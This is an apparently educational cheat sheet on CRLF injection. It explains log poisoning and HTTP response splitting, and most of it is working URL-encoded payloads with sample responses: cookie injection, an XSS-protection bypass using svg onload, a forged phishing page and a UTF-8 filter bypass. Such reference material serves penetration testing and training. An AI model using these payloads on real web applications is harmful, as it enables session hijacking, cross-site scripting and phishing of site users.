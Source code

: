 ```yaml
---
description: 'CWE-93: Improper Neutralization of CRLF Sequences (''CRLF Injection'')'
---
```


# CRLF

## #**What is CRLF injection?**

_CRLF injection_ is a vulnerability that lets a malicious hacker inject carriage return (CR) and linefeed (LF) characters to change the way a web application works or to confuse its administrator. There are two main malicious uses for CRLF injections: _log poisoning_ (also called _log injection, log splitting,_ or _log forging)_ and _HTTP response splitting_.

## Carriage Return Line Feed

> The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They're used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

> A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

### Summary

* CRLF - Add a cookie
* CRLF - Add a cookie - XSS Bypass
* CRLF - Write HTML
* CRLF - Filter Bypass
* Labs
* References

### CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

### CRLF - Add a cookie - XSS Bypass

Requested page

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

### CRLF - Write HTML

Requested page

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

### CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)

## #**What is log poisoning?**

In a log poisoning attack based on CRLF injection, a malicious hacker injects CRLF chara​cters into web server log files to confuse both automatic log analysis systems and system administrators browsing the logs manually.

## CRLF\_Injection Example

* [ ] `http://www.example.com/example.php?id=` – starting a valid request to a page with a CRLF injection vulnerability.
* [ ] `%0d%0aContent-Length:%200` – a fake HTTP response header of `Content-Length: 0`. This causes the web browser to treat this response as terminated and start parsing the next response.
* [ ] `%0d%0a%0d%0aHTTP/1.1%20200%20OK` – the injected new response begins here with a double CRLF sequence followed by `HTTP/1.1 200 OK`.
* [ ] `%0d%0aContent-Type:%20text/html` – another fake HTTP response header: `Content-Type: text/html`. This is required for the browser to treat this data as HTML content.
* [ ] `%0d%0aContent-Length:%2025` – yet another fake HTTP response header: `Content-Length: 25`. This instructs the browser to parse only the next 25 bytes and discard any remaining data as junk, causing it to ignore the legitimate HTTP content sent by the web server.
* [ ] `%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E` – a double CRLF sequence signals that the headers are over and the response body starts. The injected page content is `<script>alert(1)</script>`, which causes the user’s browser to display an alert instead of the actual _example.php_ page.

### Labs

* [https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)

### References

* [https://salmonsec.com/cheatsheets/exploitation/crlf\_injection](https://salmonsec.com/cheatsheets/exploitation/crlf\_injection)&#x20;
* https://www.owasp.org/index.php/CRLF\_Injection
* https://vulners.com/hackerone/H1:192749
